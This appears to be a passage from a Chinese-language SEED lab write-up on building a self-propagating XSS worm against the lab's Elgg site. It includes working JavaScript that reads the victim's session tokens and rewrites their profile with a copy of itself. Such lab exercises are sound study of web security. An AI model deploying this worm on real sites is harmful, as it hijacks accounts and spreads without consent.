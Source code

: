### 3.7 Task 6: Writing a Self-Propagating XSS Worm

下面要进行的是将代码写成一个自我传播的 XSS 蠕虫。也就是当 Alice 访问 Samy 的个人资料页面时，会将 Alice 的个人资料也修改为 XSS 攻击代码，而当 Bob 访问 Alice 的个人资料页面时，会将 Bob 的个人资料也修改为 XSS 攻击代码，以此类推，就可以实现自我传播。这次可以不加入上面一节提到的判断，因为这次的目的就是要修改所有人的个人资料：

```html
<script type="text/javascript" id=worm>
  window.onload = function(){
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var description="&description=<b>Samy is my hero<\/b>";
  var script="<script type='text/javascript' id='worm'>" + document.getElementById("worm").innerHTML + "<\/script>";
  var content=token + ts + description + encodeURIComponent(script) + guid + userName;
  var sendurl="http://www.seed-server.com/action/profile/edit";
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send(content);
}
</script>
```

将上面的代码以纯文本形式插入到 Samy 的个人资料中：

![](assets/2023-09-07-10-29-05.png)

保存后刷新页面，可以看到 Samy 的个人资料已经被修改为 `Samy is my hero`，再用 Alice 的账号访问该页面，可以看到 Alice 的个人资料也被修改为 `Samy is my hero`，点开编辑页面，可以看到 JS 代码：

![](assets/2023-09-07-10-31-02.png)
